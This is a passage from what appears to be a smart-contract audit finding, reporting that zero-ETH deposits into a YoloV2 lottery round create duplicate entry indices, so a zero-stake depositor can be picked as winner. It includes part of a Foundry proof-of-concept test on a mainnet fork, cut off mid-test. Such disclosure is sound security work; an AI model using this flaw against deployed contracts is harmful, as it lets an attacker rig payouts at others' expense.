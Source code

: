 ```
    3 => Charlie,
    3 => Bob,
]
```
As you can see, since Bob deposited `0 eth` to opened round, there are duplicated values in this array. Winner is decided by finding the first index that its entry index is greater or equal to received random number in above array. 

But the problem is occured in this step. If the received random number is equal to an element of `currentEntryIndexArray`, the `findUpperBound` function doesn't return the first element's index that is equal to the random number due to function's internal logic. In other words, when the received random number is 1 or 3, the winner would be selected as Bob unfairly not Alice or Charlie.

I wrote the test file for PoC as follow.
```solidity
contract UnfairWinnerSeletedTest is TestHelpers {
    address public alice = address(101);
    address public bob = address(102);
    address public charlie = address(103);

    function setUp() public {
        _forkMainnet();
        _deployYolo();
        _subscribeYoloToVRF();
    }

    function test_depositWithZeroAmountUsingBatchDeposit(uint256 randomWord) public {
        vm.deal(alice, 1 ether);
        vm.deal(bob, 1 ether);
        vm.deal(charlie, 1 ether);

        vm.startPrank(alice);
        yolo.deposit{value: 0.01 ether}(1, _emptyDepositsCalldata());

        IYoloV2.Deposit[] memory deposits = _getDeposits(1);
        assertEq(deposits.length, 1);

        IYoloV2.Deposit memory deposit = deposits[0];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAddress, address(0));
        assertEq(deposit.tokenId, 0);
        assertEq(deposit.tokenAmount, 0.01 ether);
        assertEq(deposit.depositor, alice);
        assertFalse(deposit.withdrawn);
        assertEq(deposit.currentEntryIndex, 1);

        vm.stopPrank();

        vm.startPrank(bob);
        yolo.depositETHIntoMultipleRounds{value: 0.01 ether}(_amounts());

        deposits = _getDeposits(1);
        assertEq(deposits.length, 2);

        deposit = deposits[1];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAddress, address(0));
        assertEq(deposit.tokenId, 0);
        assertEq(deposit.tokenAmount, 0 ether);
        assertEq(deposit.depositor, bob);
        assertFalse(deposit.withdrawn);
        assertEq(deposit.currentEntryIndex, 1);

        vm.stopPrank();
```